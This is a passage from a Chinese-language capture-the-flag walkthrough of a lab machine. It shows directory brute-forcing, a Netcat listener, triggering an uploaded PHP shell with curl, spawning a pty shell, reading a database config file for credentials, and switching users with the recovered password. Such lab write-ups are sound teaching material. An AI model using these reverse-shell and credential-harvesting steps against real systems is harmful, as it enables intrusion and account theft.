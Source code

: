 這時我們會發現kali上也沒有該字典檔，所以就到github上面clone下來吧!
```
git clone https://github.com/danielmiessler/SecLists.git
```
再執行一次dirsearch
```
python3  dirsearch.py -u http://10.10.10.28/ -w /usr/share/SecLists/Discovery/Web-Content/raft-large-directories.txt
```
![](https://i.imgur.com/6Wltpam.png)

我們可以得知上傳的檔案可能儲存於https://10.10.10.28/uploads 目錄底下
* 開啟Netcat來監聽
```
nc -lvnp 4444
```
![](https://i.imgur.com/GAiG5ay.png)

* 使用curl來fetch上傳的文件
```
curl http://10.10.10.28/uploads/shell.php
```
![](https://i.imgur.com/RoilptS.png)

* 用python模擬出一個Terminal，成功取得立足點
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![](https://i.imgur.com/KHhGDsp.png)

5. 獲得一般使用者帳戶

* 在login目錄底下發現db.php文件中帶有使用者帳號密碼
```
cd /var/www/html/cdn-cgi/login
cat db.php
```
![](https://i.imgur.com/eAXGpqr.png)
* 嘗試看看帳號是否可用
```
su robert
```
![](https://i.imgur.com/Lb0EXHF.png)

* robert:M3g4C0rpUs3r!

* Get Flag
```
cd ~
cat user.txt
```
![](https://i.imgur.com/TjEnlXp.png)

6. Privilege Escalation(提權)
